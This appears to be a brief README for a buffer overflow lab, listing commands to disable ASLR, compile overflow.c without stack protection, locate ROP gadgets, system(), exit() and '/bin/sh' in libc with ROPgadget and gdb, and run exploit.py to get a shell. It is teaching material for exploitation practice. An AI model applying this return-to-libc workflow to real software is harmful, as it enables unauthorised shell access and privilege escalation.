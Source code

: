 ## To compile the overflow.c: ##
	$ su root
	$ sysctl -w kernel.randomize_va_space=0
	$ gcc -g -fno-stack-protector overflow.c -o overflow

---
## To find the address of pop_pop_ret && system() && setregid() && exit() && "/bin/sh" in exploit.py: ##
	$ ROPgadget --binary ./overflow | grep pop	
	$ gdb ./overflow
	$ b main 
	$ run 
	$ p system
	$ p exit
	$ info proc map
	$ find libc_start_address,libc_end_address,"/bin/sh"

---
## To get the shell: ##
	./overflow $(python exploit.py)
